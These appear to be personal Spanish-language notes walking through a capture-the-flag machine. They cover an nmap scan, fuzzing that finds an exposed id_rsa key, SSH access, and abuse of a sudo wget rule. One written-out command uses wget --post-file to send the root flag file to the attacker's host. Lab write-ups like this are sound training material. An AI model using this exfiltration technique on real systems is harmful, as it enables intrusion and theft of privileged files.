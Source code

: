 Hacemos el escaneo con nmap:
![[Mis apuntes/ANEXOS/Pasted image 20230924110158.png]]
Y esto es lo que corre por el puerto 80:
![[Mis apuntes/ANEXOS/Pasted image 20230924110333.png]]
Si hacemos fuzzing nos encontramos con el directorio sitemap:
![[Mis apuntes/ANEXOS/Pasted image 20230924110255.png]]
![[Mis apuntes/ANEXOS/Pasted image 20230924110343.png]]
Si volvemos a hacer fuzzing, nos encontramos con un .ssh, pero debemos usar el diccionario de common.txt:
![[Mis apuntes/ANEXOS/Pasted image 20230924110445.png]]
Donde nos encontramos con un id_rsa:
![[Mis apuntes/ANEXOS/Pasted image 20230924110523.png]]
Nos lo guardamos:
![[Mis apuntes/ANEXOS/Pasted image 20230924110602.png]]
Damos permisos 600 a este id_rsa y entramos a la máquina víctima:
![[Mis apuntes/ANEXOS/Pasted image 20230924110828.png]]
Una vez dentro, ejecutamos sudo -l y podemos ver que podemos ejecutar como root el comando wget:
![[Mis apuntes/ANEXOS/Pasted image 20230924110916.png]]
Por tanto vamos a subir como sudo la flag de root a nuestra máquina atacante:
```bash
sudo /usr/bin/wget --post-file=/root/root_flag.txt 10.8.100.91
```
![[Mis apuntes/ANEXOS/Pasted image 20230924111355.png]]
![[Mis apuntes/ANEXOS/Pasted image 20230924111402.png]]
